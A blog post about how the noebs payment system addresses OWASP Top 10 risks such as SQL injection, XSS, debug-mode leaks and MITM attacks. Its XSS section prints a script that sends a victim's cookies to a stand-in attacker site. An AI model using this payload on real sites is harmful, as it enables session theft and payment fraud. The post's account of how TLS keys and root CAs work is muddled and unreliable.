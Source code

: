 +++
date = 2019-08-23
linktitle = "How are we tackling OWASP 10 at noebs"
excerpt = "The Open Web Application Security Project, or OWASP, is an international non-profit organization dedicated to web application security. One of OWASP’s best-known project is the OWASP Top 10."
title = "How are we addressing OWASP Top 10 at noebs"

tags =  [
	"noebs",
	 "electronic-payment",
	 "owasp",
	 "security",
	 "payment-systems"
]
url = "/owasp"
+++

**OWASP** The Open Web Application Security Project is an international non-profit organization dedicated to web application security. They're best know by OWASP Top 10, a curated list of top 10 most critical security risks. This post will highlight some of the practices we are following at Solus while building our systems.

# SQL injection
This is one of the very common and the first item in OWASP Top 10. In it's simplest form, it is about sending a sql code through e.g., HTML Form input field. For this to work, the server must be *enabling* executing such an action. Let's take this simple example (using Python):

```python
form = request.form()
username = form["username"]   # there's an form field called username
sql.exec(username)    # This is a _sql injection_
```
It is almost always bad to execute raw sql queries. In fact, unless you DB is read-only, there's no need at ALL to allow raw sql queries execution.

The solution is: Don't allow raw sql execution.

# Broken Authentication
This can be broken into two categories:
- you're either building an insecure authentication system that exposes your users' data,
- or, your login system allows repeated logins attempts (brute-forcing)

We are using the industry standard practice here. We are using JWT for most of our authorization, while _planning_ to use session cookies for browser based ones. There are huge debates about JWT and session cookies, but it is all boils down to your whole system design. Sometimes, JWT fits to the whole system (if your target clients are Android/iOS), and sometimes session cookies are great, esp if you target clients are browser based.


For this, we have two solutions:
- We are using HSTS (HTTP Strict Transport Security).

> HSTS causes compliant browsers to strictly enforce web security practices. Specifically, it automatically turns all HTTP links into HTTPS links within an application, and it upgrades all SSL errors from warnings or bypassable errors into non-bypassable errors.

# XSS (Cross-site scription)
An attacker can send a malicious JS code (in the client code). It can be as bad as copying the user's cookies and gain control access to their session.

Suppose that you have an HTML form that allows your users to write some notes about their transactions, here is a sample code:
```html
<form>
<input type="text">
<label>Type your note here</label>
</form>
```
The user's form will be submitted __and__ rendered in a new page! Now this is very dangerous and it what leads to XSS security breaches. Let's see this in action. The next HTML page which will render the form result is like this:
```html
<!-- skipping through HTML head -->
<div>
<!-- form results go here -->
</div>

```
We expect our users to input stuff like time, text data BUT NOT JS CODE! What happens, if the users submitted `<script>alert("You have been spawned!")</script>`. This will launch a JS code from suspecious user's input. Now, this code can be even worse and accesses the user's cookies.

## How the attacker can log your cookies
It is quite simply actually. You can access your website cookie by accessing the cookie property of document class:
- use your browser inspector and go to console
- print document.cookie
and now you can access your cookies!

Now if the attacker wants to get that cookie, they will need to send it somewhere (most likey to a server/website they own)

- the attacker submits an unsafe js code that redirects the users to a new website (where they will log the cookie)
- now, the attacker does have access to your session and can do whatever they want while they are there (they can see your payment card info for instance, they can even submit a transaction assuming that your PIN is 0000 or your birthday)
The JS code to get your cookie is just this:
`
<script>
document.location="http://mybadwebsite.com/?cookie_handler=" + document.cookie
</script>
`
__This can be even smarter by redirecting the user back to their original website!__

And now, when the user submits that un-sanitized inputs, it will:
- redirect them to a new website `http://mybadwebsite.com`
- it submits their cookie `document.cookie` to that website!

Here are a few steps you can follow to be safe against these types of attacks:
- Sanitize your users' inputs! In GO `template/html` library (the templating engine in GO, much like jinja2), it by default scapes HTML and JS tags
- If your website is something is form-like, there are a few things you can adopt:
	- let your users use markdown (it is safer)
	- you can specify some HTML elements as safe (e.g., <p>, <a>), and escape the rest. In this case, you will allow your users to have rich text experience

## The solution to all of the above issues is very simple: USE A FRAMEWORK!

The solution to all of the above issues is very simple, use a web framework! All of the modern web frameworks solves these rather naive secruity issues! I have worked with Python (Django and Flask and Starlette) and I've also worked with GO, all of them have built-in support for these common security issues! So, in practice, adapting *any* of modern web framework will save you from all of these issues, for free!

## Security Misconfigurations

I have seen this in the wild very recently in a payment system. We as developers love to have excessive stack trace and error reports while developing our services. Because there are so many errors we ought to face, it is very important that we get the whole stack trace so we get more insights into our error and fix it. However, that must stay in the development face ONLY! These stack traces (and perhaps other info) are very useful for attackers to gain access to your server.

Many of web frameworks (Django for instance) have DEBUG mode where instead of returing 500 INTERNAL SERVER ERROR, they also include the stack trace (when DEBUG=True) in Django `settings.py`. While this is very important while developing, it is very catastrophic in real life!

# Sensitive data exposure and MITM
We work in payment systems and it is very important to secure our user's data (their payment card info). These systems must adhere to even strictier rules than what OWASP offers as they have VERY sensitive data. PCI-DSS compliancy should be a #1 target for such systems and they shoud monitor and audit their systems and upgrade them regularly. _Security should be a profound part of their system design!_

> While getting EBS certificate is quite enough to have a secure system, we know that vendors often tend to modify their EBS-certified systems. This is a huge issue and it renders the whole EBS certification part useless.

## What we do in noebs to secure your data
- KISS (keeping it simple, stupid!). We are keeping it simple: we are only storing your PAN and expiration date, we don't store anything else!
- We had long discussions about storing PAN and expiration date, but we plan to change the way we store them VERY SOON!
- We have a Zero-log policy, so even if an attacker has breached our system, they will find no useful data!

## MITM Attacks
Man in the middle attacks are a very special and interesting class of attacks.
- You are using https for securing your system
- You have successfully solved CSRF, XSS and SQL Injections (hooray!)
- and now everything is fine, right?

As we know, TLS certificates are used to encrypt our request and make it secure. They are to be unbroken since the protocol is a public-private key exchange to decypher the http request. Meaning that, there's only one private key (in the server), and each client has their unique public key. So what could possibly go wrong?
Telecos (or MITM attackers) inject a tampered root CA in the host machine and replace their original one. When you send your "secure" request, it is being encrypted using the new root CA and sent to the server.
The attacker, having acquired your root CA, can then decypher your network traffic and have access to all of it.
